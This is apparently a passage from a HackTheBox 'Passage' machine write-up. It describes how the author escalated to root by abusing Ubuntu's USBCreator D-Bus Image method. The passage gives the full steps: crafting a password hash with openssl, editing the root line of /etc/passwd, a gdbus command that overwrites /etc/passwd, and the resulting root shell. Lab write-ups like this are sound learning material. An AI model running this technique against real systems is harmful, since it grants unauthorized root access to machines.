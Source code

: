 oohhh... that looks important. I knew about dbus but what I did not know about was any exploit related to it. I do some digging and stumble across this [awesome article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/). I mean it gives you each and every detail about Dbus and its exploit. You know what I am gonna go and read it again.

I just saw that the article was written by "Nadav" Markus. Nice one Hackthebox. So I go ahead and read the whole thing. Here is what I understand:

Dbus is used for inter-process communication. Meaning to pass data between different processes. There is a dbus service known as USB creator which has a method known as Image. The vulnerability is that this method allows all the users in the sudo group( which we are) to copy and paste files between different locations even if it is present inside the root directory and that too without authentication. 

The lazy way to exploit this would be to just copy the root.txt flag and paste it somewhere you can read it. But that is not my way. I want to fully comprimise this thing. I remember a technique I saw from John Hammond's youtube videos where you can change the password of the root user.

I always wanted to try it and I finally have the chance. Here is how you do it. 

- First print out the contents of the /etc/passwd file.
- copy it and save it inside a file. Next generate the hash of the password you want to set for the root user. Like this:
{%highlight text%}
echo 'joske' | openssl passwd -1 -stdin
$1$xY5ZsdUc$rpmwo9tgdY7j8JAPSxmgy/
{%endhighlight%}
Replace "joske" with any password you want.

- Next copy the hash and put it in place of the "x" that is beside the root user in the passwd file. Like this

Before
{%highlight text%}
root:x:0:0:root:/root:/bin/bash
{%endhighlight%}

After
{%highlight text%}
root:$1$xY5ZsdUc$rpmwo9tgdY7j8JAPSxmgy/:0:0:root:/root:/bin/bash
{%endhighlight%}

- Now that your new passwd file is ready just go ahead and use the command used in the article. This is what I did.

{%highlight text%}
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/passwd /etc/passwd true
{%endhighlight%}

The first file is where your new file is located and the second file is the one you want to overwrite.
- Try changing the user to root using the password you chose before.

{%highlight text%}
nadav@passage:~$ su root
Password: 
root@passage:/home/nadav#
root@passage:/# whoami
root
root@passage:/# id
uid=0(root) gid=0(root) groups=0(root)
{%endhighlight%}
